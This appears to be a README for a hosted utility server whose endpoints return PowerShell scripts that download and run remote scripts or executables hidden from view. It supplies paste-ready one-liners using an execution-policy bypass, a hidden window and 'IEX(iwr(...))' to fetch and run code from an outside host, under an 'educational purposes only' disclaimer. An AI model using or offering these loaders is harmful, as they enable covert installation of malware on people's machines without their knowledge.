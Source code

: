This is a server which runs utils for various project

> **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

# Endpoints

## [/pshid](https://vercelutilsserver.gymthun.com/exehid)

returns a powershell script, downloads and executes a powershell script without a window


example: [`/pshid?url=is.gd/tuioh`](https://vercelutilsserver.gymthun.com/pshid?url=is.gd%2Ftuioh)

which can be executed with 
```shell
powershell -ep ByPass "IEX(iwr('https://vercelutilsserver.gymthun.com/pshid?url=is.gd%2Ftuioh'))"
```

## [/exehid](https://vercelutilsserver.gymthun.com/exe2ps1)

downloads and runs an executable via pshid


example: [`/exehid?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -ep ByPass "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```

## [/exe2ps1](https://vercelutilsserver.gymthun.com/exe2ps1)

<details>
<summary>Details</summary>

returns a powershell script, which downloads and runs an executable from `param:url` with all `param:arg` passed


example: [`/exe2ps1?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -ep ByPass -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```
</details>